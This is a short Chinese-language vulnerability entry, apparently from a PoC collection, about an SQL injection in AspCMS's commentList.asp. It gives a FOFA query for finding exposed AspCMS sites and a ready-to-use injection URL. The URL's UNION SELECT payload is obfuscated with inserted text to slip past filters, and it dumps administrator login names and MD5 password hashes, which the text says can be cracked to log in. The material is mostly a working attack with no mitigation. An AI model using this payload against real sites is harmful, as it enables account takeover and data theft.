 # AspCMS系统commentList.asp存在SQL注入漏洞

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码，进行解密后登录获取敏感数据。

## fofa

```yaml
app="ASPCMS"
```

## poc

```asp
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![image-20240619131305272](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011120340.png)